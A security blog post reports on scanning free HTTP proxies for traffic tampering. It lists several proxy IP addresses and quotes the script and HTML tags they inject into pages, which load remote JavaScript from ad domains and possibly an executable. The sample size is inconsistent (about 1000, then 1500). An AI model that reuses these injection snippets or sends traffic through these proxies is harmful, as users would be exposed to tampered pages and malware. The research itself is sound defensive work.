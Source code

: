 Scanning for Malicious Proxies

In the past few years, there has been a lot of press about HTTP proxies that transparently modify traffic to inject javascript for malicious purposes. There have been multiple presentations at DEFCON and blackhat about this topic and a variety of ways of exploiting it including: DDOS, credential theft, and even a distributed method of storage. 

Due to this, I decided to write a script to automatically scan proxies for malicious behavior such as: injecting javascript, modifying forms, and editing HTML. 

The first step was to get a list of proxies that are currently up and freely accessible. For this, I used a modified version of Dan McInerney’s Elite Proxy Finder. Originally, this script allowed for automated speed testing and discovery of elite proxies. I modified this script so as to: 

Output all types of proxies, not just elite proxies (since anonymity is not an issue).
Output proxies that support only http. This was done because proxies are not able to modify resources transmitted over SSL, so support for a protocol that I will not be testing is not needed.
Export a list of proxies and their ports
From there, I had a list of approximately 1000 active free proxies. While this is a relatively small number, I decided to move on with the experiment to see if there was any malicious behavior to be observed even in this small sample size. So on to the results!

In all 1500 proxies, there was no malicious traffic. What I mean by this is that no proxies transparently edited the traffic without making it very clear that one was not reaching the requested website. There was no injection of javascript. There was no modification of forms. Absolutely no interesting modifications. 

Thus the next step is going to be to use masscan to scan the ipv4 address space to look for free proxies, then once again search for malicious behavior.

The code used for this post will be posted here once I clean it up a little bit.

Update: I updated the script slightly so as to increase the number of proxies it discovered. With the addition of the updated script, I have discovered a number of malicious proxies that are currently active. 

Here is a list of all proxies detected with errant behavior and a description of their errant behavior.

The proxy server at

221.183.16.219:00080

modifies HTML sent over HTTP to add the following code to every webpage

<script type=’text/javascript’ charset=’utf-8’ src=’http://www.adfocus.com.cn/adscript/adfocus.js’></script>

Sadly, the adfocus.com.cn domain is not currently accessible, so I cannot view the injected javascript. Based off of the URL of the injected javascript, two conclusions can be made. 

It is javascript used to automatically inject ads into websites accessed over HTTP. This seems to be the most obvious solution since the domain is “adfocus.com.cn” and the javascript file is stored in the “adscript” folder and is called “adfocus.js”. This would make sense since it is a free proxy, the owners of the proxy are likely trying to monetize the business. 
However, it seems like this might be what we are supposed to think. I say this because the javascript is hosted on the adfocus.com.cn domain, very similar to the legitimate adfocus.com. It might be that the administrators of this proxy are attempting to capture the reputation of adfocus.com so as to prove the legitimate nature of the injected code. This makes me wonder whether this code serves a more malicious purpose. The injected javascript could do anything from exploit the computer to be part of a botnet to be part of a distributed filesystem. 
The proxy server at

115.239.210.199:80

automatically strips all HTML comments from the transmitted data. While this does not have any obvious negative effect, it still modifies the transmitted HTML which is an inherently bad thing for any proxy server. 

The proxy server at

60.194.40.198:8118

modifies HTML sent over HTTP to add the following code to every webpage

<script type=”text/javascript” charset=”utf-8” mediaproAccountID=”0” mediaproSlotID=”0” usermac=”” src=”/7b26d4601fbe440b35e496a0fcfa15f7/000c4347fbe8/w1/i.js” async=”async” defer></script><meta http-equiv=”Content-Type” content=”text/html; charset=UTF-8” />

The proxy server at

122.225.106.35:80

modifies HTML sent over HTTP to add the following code to every webpage

<link rel=”stylesheet” type=”text/css” href=”http://ads.adt100.com/bottom.css” /><div id=”center_xad” class=”cwindow_xad”> <div class=”center_title_xad”> <img onclick=”closeWindow()” width=”15px” height=”15px” src=”http://ads.adt100.com/images/close_btn.gif”> </div> <div id=’center_xad_cnt’ class=”injection_content”></div></div><div id=”right_xad” class=”window_xad”> <div class=”right_title_xad”><img onclick=”closeWindow()” width=”15px” height=”15px” src=”http://ads.adt100.com/images/close_btn.gif”></div><div id=’right_xad_cnt’ class=”injection_content”></div></div><script type=”text/javascript” src=”http://ads.adt100.com/bottom.js”></script></body>

This code does a number of interesting things. First of all, it adds a new CSS style sheet. While the style sheet does not do anything malicious (instead choosing to allow the page to appear normally) it is clearly malicious in its purpose, the stylesheet is not the key to the malicious code.The interesting part is here. As my knowledge of javascript is quite limited, I’m going to stop my analysis here. But based off of a quick read through of the code, it seems to be malicious in nature considering the injection of a flash object attempting to download an exe.

So far, I have only analyzed a few select malicious proxies. A full data dump from running this script is available in the Github repo here if anyone wants to give an automated analysis a shot (6500+ lines).
